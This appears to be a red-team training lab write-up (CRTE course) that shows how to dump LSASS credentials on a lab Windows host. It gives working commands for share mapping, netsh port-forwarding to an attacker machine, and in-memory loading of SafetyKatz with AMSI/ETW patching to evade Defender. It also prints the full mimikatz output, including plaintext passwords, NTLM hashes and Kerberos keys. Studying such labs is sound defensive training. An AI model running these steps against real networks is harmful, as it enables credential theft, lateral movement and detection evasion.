



CRTE - Certified Red Team Expert
Dumping LSASS Credentials
LSASS (Local Security Authority Subsystem Service) is a core process in the Windows operating system that enforces security policies, manages authentication, and handles sensitive credential information. Understanding LSASS is crucial, especially in offensive security, as it provides insight into how Windows handles authentication and protects user credentials. LSASS is the backbone of authentication in Windows systems, holding keys to accessing sensitive resources. While vital for legitimate operations, it’s also a prime target for attackers aiming to compromise networks. Its security protections have evolved, but understanding LSASS remains essential for both defending and attacking in Windows environments.Key Aspects of LSASS
- Core Responsibilities:
- Credential Storage:
- Security and Access:
- File Location and Process:
- Protections Against Attacks:
- Role in Authentication Protocols:
LSASS in the Context of Offensive Security
Attackers, including Red Teams, target LSASS because of the valuable credential data it holds. By dumping LSASS memory, attackers can extract credentials to escalate privileges or perform lateral movement across the network. Tools like Mimikatz, ProcDump, and others have been traditionally used for this purpose. For Red Teams, LSASS is a treasure trove of credentials. Dumping its memory can reveal hashed or plaintext passwords, Kerberos tickets, and other authentication tokens, enabling privilege escalation and lateral movement. Accessing LSASS on high-value targets like Domain Controllers can expose credentials with enterprise-wide impact, such as those of Domain Admins. However, due to its critical nature, LSASS is heavily monitored by modern security tools, making it a risky target.Why Dumping LSASS Should Be a Last Resort
Dumping LSASS is noisy and almost always triggers alarms in modern security environments. It can compromise operational security (OpSec), expose the Red Team's activities, and jeopardize the engagement. This action should only be considered after exploring less-detectable options like credential enumeration, intercepting network traffic, or leveraging misconfigurations. When absolutely necessary, ensure the operation is surgical, targeted, and employs stealthy techniques to minimize detection.
Attacking interactive logon sessions and service accounts
Since we do have administrator remote access to US-MailMgt machine from our previous lab, we can abuse LSASS on this target. To remote access the target we will use WinRS.Mapping Shares to local system
Let’s start by Mapping shares from remote servers to our local system to allow seamless access to the target machine's files as if they were stored locally. This is useful for tasks like transferring payloads, extracting sensitive data, or staging tools for further exploitation. We will use this approach to be able to transfer files to our target US-MailMgt.
Advantages:- Convenience: It simplifies interaction with the target's file system, enabling easy copying, reading, or modification of files.
- Efficiency: File transfers and tool deployments are faster and more straightforward compared to manual uploads or downloads.
- Persistence: The mapped drive can remain accessible for the session, allowing continuous interaction without repeatedly authenticating.
- Stealth: Uses built-in Windows functionality, making the activity less suspicious to some monitoring tools.
Note: If your mapping does not work on the one-liner passing the password on it, it’s probably due to special characters on the credential and you may get error Password i not correct.To bypass this, you can simply do the whole mapping command and put the password after it is asked. net use x: \\us-mailmgmt\C$\Users\Public /user:us-mailmgmt\Administrator '/$/.D8Dv/3G6Nx' OR net use x: \\us-mailmgmt\C$\Users\Public /user:us-mailmgmt\Administrator

We could successfully map drive x to US-MailMgt host on C:\Users\Public directory.
Let’s now Copy our loader into our target using xcopy. echo F | xcopy C:\AD\Tools\Loader.exe x:Loader.exe
the echo F we pass in the beginning is to tell prompt that we are transferring a file.
After uploading our loader into the target, we can now delete our mapped driver x since we don’t need it anymore. net use x: /delete
What If we simply download and execute Safetykatz in memory now using our Loader.exe on the target machine? We could simply run SafetyKatz calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.
Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like SafetyKatz can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like SafetyKatz directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Network Traffic Monitoring: When SafetyKatz is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- LSASS Process Access is a Red Flag: Tools like SafetyKatz attempt to access the LSASS process to extract credentials from memory. This is a highly suspicious activity that will easily be detected and is a major indicator of a malicious attack.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:
Portforwarding to bypass EDR
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call SafetyKatz using it’s localhost IP. winrs -r:us-mailmgmt -u:.\administrator -p:/$/.D8Dv/3G6Nx cmd netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.163
1. netsh interface portproxy add v4tov4:
- netsh interface portproxy: This is the part of the netsh utility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.
- add: Specifies that you're adding a new forwarding rule.
- v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port 8080.
3. listenaddress=0.0.0.0:
- The IP address on the local machine where the service will listen for connections.
- 0.0.0.0 means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port 80 (commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).

We can now user our Loader.exe on our target to call SafetyKatz from memory and extract the LSASS process. Let’s first start by encoding our Safetykatz argument using ArgSplit.bat.
Let’s now copy/paste the encoded argument into our the session on our target.
Now we are ready to use SafetyKatz.
Disabling Defender
Before we carry on with the extraction of the LSASS credentials on our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining.
Dumping LSASS with SafetyKatz
Now that we have all setup, we can go to our target machine and simply execute SafetyKatz.exe from memory using Loader.exe. C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn%" "exit"
[] Applying amsi patch: true [] Applying etw patch: true [] Decrypting packed exe... [!] ~Flangvik - Arno0x0x Edition - #NetLoader [+] Patched! [+] Starting http://127.0.0.1:8080/SafetyKatz.exe with args 'sekurlsa::ekeys exit'n$($2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES Key List : aes256_hmac 2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5 aes128_hmac 65c0b72504e134531fe37b3e761b92a0 rc4_hmac_nt 6e1c353761fff751539e175a8393a941 rc4_hmac_old 6e1c353761fff751539e175a8393a941 rc4_md4 6e1c353761fff751539e175a8393a941 rc4_hmac_nt_exp 6e1c353761fff751539e175a8393a941 rc4_hmac_old_exp 6e1c353761fff751539e175a8393a941mimikatz(commandline) # sekurlsa::ekeys
Authentication Id : 0 ; 12105877 (00000000:00b8b895) Session : Interactive from 2 User Name : DWM-2 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:40:05 AM SID : S-1-5-90-0-2
Username : US-MAILMGMT$ Domain : us.techcorp.local Password : B_m3Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0Vmg_9qyrcccQbdG-PLPwPzNoPun$($2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES Key List : aes256_hmac 2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5 aes128_hmac 65c0b72504e134531fe37b3e761b92a0 rc4_hmac_nt 6e1c353761fff751539e175a8393a941 rc4_hmac_old 6e1c353761fff751539e175a8393a941 rc4_md4 6e1c353761fff751539e175a8393a941 rc4_hmac_nt_exp 6e1c353761fff751539e175a8393a941 rc4_hmac_old_exp 6e1c353761fff751539e175a8393a941Authentication Id : 0 ; 12097227 (00000000:00b896cb) Session : Interactive from 2 User Name : UMFD-2 Domain : Font Driver Host Logon Server : (null) Logon Time : 7/7/2024 2:40:04 AM SID : S-1-5-96-0-2
Username : US-MAILMGMT$ Domain : us.techcorp.local Password : B_m3Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0Vmg_9qyrcccQbdG-PLPwPzNoPuAuthentication Id : 0 ; 110804 (00000000:0001b0d4) Session : Service from 0 User Name : provisioningsvc Domain : US Logon Server : US-DC Logon Time : 7/7/2024 2:08:24 AM SID : S-1-5-21-210670787-2521448726-163245708-8602
Username : provisioningsvc Domain : US.TECHCORP.LOCAL Password : T0OverseethegMSAaccounts!! Key List : aes256_hmac a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a aes128_hmac 7ae58eac70cbf4fd3ddab37ecb07067e rc4_hmac_nt 44dea6608c25a85d578d0c2b6f8355c4 rc4_hmac_old 44dea6608c25a85d578d0c2b6f8355c4 rc4_md4 44dea6608c25a85d578d0c2b6f8355c4 rc4_hmac_nt_exp 44dea6608c25a85d578d0c2b6f8355c4 rc4_hmac_old_exp 44dea6608c25a85d578d0c2b6f8355c4Authentication Id : 0 ; 29486 (00000000:0000732e) Session : Interactive from 1 User Name : UMFD-1 Domain : Font Driver Host Logon Server : (null) Logon Time : 7/7/2024 2:08:16 AM SID : S-1-5-96-0-1
Username : US-MAILMGMT$ Domain : us.techcorp.local Password : B_m3Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0Vmg_9qyrcccQbdG-PLPwPzNoPun$($2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES Key List : aes256_hmac 2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5 aes128_hmac 65c0b72504e134531fe37b3e761b92a0 rc4_hmac_nt 6e1c353761fff751539e175a8393a941 rc4_hmac_old 6e1c353761fff751539e175a8393a941 rc4_md4 6e1c353761fff751539e175a8393a941 rc4_hmac_nt_exp 6e1c353761fff751539e175a8393a941 rc4_hmac_old_exp 6e1c353761fff751539e175a8393a941Authentication Id : 0 ; 29407 (00000000:000072df) Session : Interactive from 0 User Name : UMFD-0 Domain : Font Driver Host Logon Server : (null) Logon Time : 7/7/2024 2:08:16 AM SID : S-1-5-96-0-0
Username : US-MAILMGMT$ Domain : us.techcorp.local Password : B_m3Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0Vmg_9qyrcccQbdG-PLPwPzNoPun$($2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES Key List : aes256_hmac 2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5 aes128_hmac 65c0b72504e134531fe37b3e761b92a0 rc4_hmac_nt 6e1c353761fff751539e175a8393a941 rc4_hmac_old 6e1c353761fff751539e175a8393a941 rc4_md4 6e1c353761fff751539e175a8393a941 rc4_hmac_nt_exp 6e1c353761fff751539e175a8393a941 rc4_hmac_old_exp 6e1c353761fff751539e175a8393a941Authentication Id : 0 ; 48840 (00000000:0000bec8) Session : Interactive from 1 User Name : DWM-1 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:08:17 AM SID : S-1-5-90-0-1
Username : US-MAILMGMT$ Domain : us.techcorp.local Password : B_m3Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0Vmg_9qyrcccQbdG-PLPwPzNoPun$($2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES Key List : aes256_hmac 2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5 aes128_hmac 65c0b72504e134531fe37b3e761b92a0 rc4_hmac_nt 6e1c353761fff751539e175a8393a941 rc4_hmac_old 6e1c353761fff751539e175a8393a941 rc4_md4 6e1c353761fff751539e175a8393a941 rc4_hmac_nt_exp 6e1c353761fff751539e175a8393a941 rc4_hmac_old_exp 6e1c353761fff751539e175a8393a941Authentication Id : 0 ; 999 (00000000:000003e7) Session : UndefinedLogonType from 0 User Name : US-MAILMGMT$ Domain : US Logon Server : (null) Logon Time : 7/7/2024 2:08:16 AM SID : S-1-5-18
Username : us-mailmgmt$ Domain : US.TECHCORP.LOCAL Password : (null) Key List : aes256_hmac f12a400718bcdd5fedec676974175e8fc8921c8401ae70ba1f13b4062c874103 rc4_hmac_nt 6e1c353761fff751539e175a8393a941 rc4_hmac_old 6e1c353761fff751539e175a8393a941 rc4_md4 6e1c353761fff751539e175a8393a941 rc4_hmac_nt_exp 6e1c353761fff751539e175a8393a941 rc4_hmac_old_exp 6e1c353761fff751539e175a8393a941Authentication Id : 0 ; 48861 (00000000:0000bedd) Session : Interactive from 1 User Name : DWM-1 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:08:17 AM SID : S-1-5-90-0-1
Username : US-MAILMGMT$ Domain : us.techcorp.local Password : B_m3Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0Vmg_9qyrcccQbdG-PLPwPzNoPun$($2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES Key List : aes256_hmac 2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5 aes128_hmac 65c0b72504e134531fe37b3e761b92a0 rc4_hmac_nt 6e1c353761fff751539e175a8393a941 rc4_hmac_old 6e1c353761fff751539e175a8393a941 rc4_md4 6e1c353761fff751539e175a8393a941 rc4_hmac_nt_exp 6e1c353761fff751539e175a8393a941 rc4_hmac_old_exp 6e1c353761fff751539e175a8393a941Authentication Id : 0 ; 996 (00000000:000003e4) Session : Service from 0 User Name : US-MAILMGMT$ Domain : US Logon Server : (null) Logon Time : 7/7/2024 2:08:16 AM SID : S-1-5-20
Username : us-mailmgmt$ Domain : US.TECHCORP.LOCAL Password : (null) Key List : aes256_hmac f12a400718bcdd5fedec676974175e8fc8921c8401ae70ba1f13b4062c874103 rc4_hmac_nt 6e1c353761fff751539e175a8393a941 rc4_hmac_old 6e1c353761fff751539e175a8393a941 rc4_md4 6e1c353761fff751539e175a8393a941 rc4_hmac_nt_exp 6e1c353761fff751539e175a8393a941 rc4_hmac_old_exp 6e1c353761fff751539e175a8393a941Authentication Id : 0 ; 12105609 (00000000:00b8b789) Session : Interactive from 2 User Name : DWM-2 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:40:05 AM SID : S-1-5-90-0-2
Username : US-MAILMGMT$ Domain : us.techcorp.local Password : B_m3Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0Vmg_9qyrcccQbdG-PLPwPzNoPun$($2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES Key List : aes256_hmac 2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5 aes128_hmac 65c0b72504e134531fe37b3e761b92a0 rc4_hmac_nt 6e1c353761fff751539e175a8393a941 rc4_hmac_old 6e1c353761fff751539e175a8393a941 rc4_md4 6e1c353761fff751539e175a8393a941 rc4_hmac_nt_exp 6e1c353761fff751539e175a8393a941 rc4_hmac_old_exp 6e1c353761fff751539e175a8393a941
Using SafetyKatz, we successfully dumped authentication data, including plaintext passwords, Kerberos keys, and NTLM hashes. The data revealed the provisioningsvc account with a plaintext password (T0OverseethegMSAaccounts!!), which could be valuable for privilege escalation. Additionally, you extracted keys and hashes for the machine account US-MAILMGMT$, which can be used for Kerberos-based attacks (like forging tickets) or NTLM-based lateral movement.
The difference between "Interactive from 0," "from 1," "from 2," and "from 3" lies in the session IDs assigned by Windows:
- Interactive from 0: Reserved for system services and tasks, not user interaction.
- Interactive from 1: First logged-in user's session, usually the console or primary local user.
- Interactive from 2, 3, etc.: Additional user sessions, often from RDP or secondary users logged in concurrently.